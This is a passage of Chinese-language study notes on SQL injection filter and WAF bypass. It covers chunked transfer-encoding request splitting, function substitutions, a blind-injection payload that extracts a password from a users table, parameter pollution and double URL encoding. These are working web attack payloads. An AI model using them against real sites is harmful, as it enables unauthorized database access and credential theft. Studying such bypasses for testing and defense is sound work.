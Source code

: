 ![image-20231207231844231](../../_Attachment/sql注入方法及绕过.assets/image-20231207231844231.png)


进行分块传输的时候，请求头要加上**Transfer-Encoding: Chunked**，然后POST的数据规则如下

2 # 下面的数据的长度，可以在后面加个分号然后添加注释（2; hello world） id # 请求的参数 2  # 下面的数据的长度 =1 # 请求的值，和前面的id连起来 0 # 表明分块请求结束，一个0和两个换行

最后就是大佬写出的插件，安装了一键分块Orz  
[https://github.com/c0ny1/chunked-coding-converter](https://github.com/c0ny1/chunked-coding-converter)

### 等价替换

hex()、bin() ==> ascii()  
sleep() ==>benchmark()  
concat\_ws()==>group\_concat()  
mid()、substr() ==> substring()  
@@user ==> user()  
@@datadir ==> datadir()  
举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74  
或者：  
substr((select 'password'),1,1) = 0x70  
strcmp(left('password',1), 0x69) = 1  
strcmp(left('password',1), 0x70) = 0  
strcmp(left('password',1), 0x71) = -1

### 参数污染

?id=1&id=2&id=3

### 编码解码及加密解密

+   s->%73->%25%37%33
+   hex,unlcode,base64等
